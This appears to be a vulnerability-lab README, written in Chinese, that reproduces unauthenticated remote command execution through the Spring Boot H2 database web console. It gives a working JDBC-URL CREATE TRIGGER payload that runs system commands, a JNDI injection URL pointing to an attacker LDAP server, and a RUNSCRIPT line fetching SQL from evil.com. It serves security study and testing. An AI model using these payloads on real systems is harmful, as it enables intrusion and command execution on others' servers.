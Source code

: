 # H2 数据库 Web 控制台未授权访问

H2数据库是一个Java的嵌入式内存数据库。当Spring Boot配合H2数据库使用时，如果设置了以下选项，其自带的Web管理页面将可以被外部访问，且没有用户验证：

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

这个管理页面支持使用JNDI加载JDBC驱动，攻击者可以利用JDBC攻击或JNDI注入来执行任意命令。

参考链接：

- <https://mp.weixin.qq.com/s?__biz=MzI2NTM1MjQ3OA==&mid=2247483658&idx=1&sn=584710da0fbe56c1246755147bcec48e>
- <https://www.exploit-db.com/exploits/45506>
- <https://github.com/h2database/h2database/pull/1580>
- <https://github.com/h2database/h2database/pull/1726>
- <https://github.com/h2database/h2database/issues/1225>

## 环境搭建

启动一个带有H2数据库和内嵌Tomcat的Spring Boot应用：

```
docker compose up -d
```

容器启动后，Spring Boot应用将监听在`http://your-ip:8080`，默认情况下管理页面地址为`http://your-ip:8080/h2-console/`。

## 漏洞复现

这个漏洞有两种利用方式，一种是[JDBC攻击](https://su18.org/post/jdbc-connection-url-attack/)，另一种是[JNDI注入](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)。

### JDBC攻击

H2控制台允许用户指定任意JDBC URL。通过指定`jdbc:h2:mem:testdb`并使用JDBC的`init`属性，我们可以在本地内存服务器中执行任意SQL语句。

H2数据库支持一些特殊且危险的命令，例如：

- `RUNSCRIPT FROM 'http://evil.com/script.sql'`
- `CREATE ALIAS func AS code ...; CALL func ...`
- `CREATE TRIGGER ... AS code ...`

我们可以使用`CREATE TRIGGER`构造恶意SQL语句，然后将其放入JDBC URL中：

```
jdbc:h2:mem:testdb;MODE=MSSQLServer;init=CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;
```

在H2控制台中点击"Test Connection"并捕获请求，然后修改请求中的JDBC URL即可成功执行`id`命令。

![](1.png)

### JNDI注入

1.4.198版本及以后的H2控制台中，添加了新的[`-ifNotExists`选项](https://github.com/h2database/h2database/pull/1726)，默认禁用远程数据库创建，这将导致攻击者必须找到一个已存在的H2数据库才能执行上述JDBC攻击。

如果无法找到合适的H2数据库，我们也可以利用JNDI注入来执行任意命令。这里使用[JNDIExploit](https://github.com/vulhub/JNDIExploit)工具来利用这个漏洞。

启动`JNDIExploit`并根据项目文档中给出的信息来填写表单：

![](2.png)

`javax.naming.InitialContext`是JNDI工厂类名，URL `ldap://172.17.0.1:1389/TomcatBypass/Command/Base64/dG91Y2ggL3RtcC9zdWNjZXNz`是恶意JNDI URL。

点击“Test Connection”后，恶意JNDI服务器收到请求：

![](3.png)

可见，`touch /tmp/success`命令已经成功执行：

![](4.png)
